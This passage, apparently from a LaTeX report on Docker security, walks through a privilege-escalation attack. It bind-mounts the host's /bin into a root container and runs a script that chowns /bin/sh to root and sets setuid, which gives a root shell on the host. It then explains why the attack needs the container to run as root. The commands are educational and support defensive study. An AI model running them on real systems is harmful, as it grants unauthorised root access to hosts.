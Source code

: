 And then start the container with the following commands:
\begin{lstlisting}[style=dockercommands]
$ docker build . -t docgroup
$ docker run --rm -it -v /bin/:/attack_bin docgroup
\end{lstlisting}

The script that is copied inside the container by the attacker is given below:
\begin{lstlisting}[style=shellscript, caption={2\_attack\_inside\_the\_container.sh}]
#!/bin/sh

chown root:root /attack_bin/sh
#chmod a+s: a:all users, +s:If someone else runs the file, they will run the file as the user/group who created it.
chmod a+s /attack_bin/sh
\end{lstlisting}

The attacker runs this script inside the container and then the container may be stopped. What this script does, is changing the ownership of sh file inside the bind mounted volume /attack\_bin and then modifying its permissions by adding the setuid permission for all users. The permission setuid means set user ID upon execution. Therefore, any user who execute /bin/sh on host will run it as its owner, who, in this case, is root. And that's exactly the next step of the attacker on host:

\begin{lstlisting}[style=terminal]
$ cd /bin
$ ./sh
\end{lstlisting}

And then runs the following commands inside the shell or commit any kind of attack he desires:
\begin{lstlisting}[style=terminal]
# whoami
root
# touch /etc/HelloFromTheOtherSide
\end{lstlisting}

If we check the permissions of the new file on host we can see that its owner is root:

\begin{lstlisting}[style=terminal]
$ ls -l /etc/ | grep Hello
-rw-rw-r-- 1 root root       0 Jan 19 20:52 %Hello%FromTheOtherSide
\end{lstlisting}

This attack succeeds only by running the container as root.

Technically, it needs root because this is the only way to change the file permissions of the mounted volume /attack\_bin. When you bind-mount, Docker does not touch the permissions of the directory that it is being mounted in. Thus, a non-root user who is not the owner of host's /bin/ would not be allowed to use chown and chmod to /attack\_bin and that is why the attacker should run the container as root.

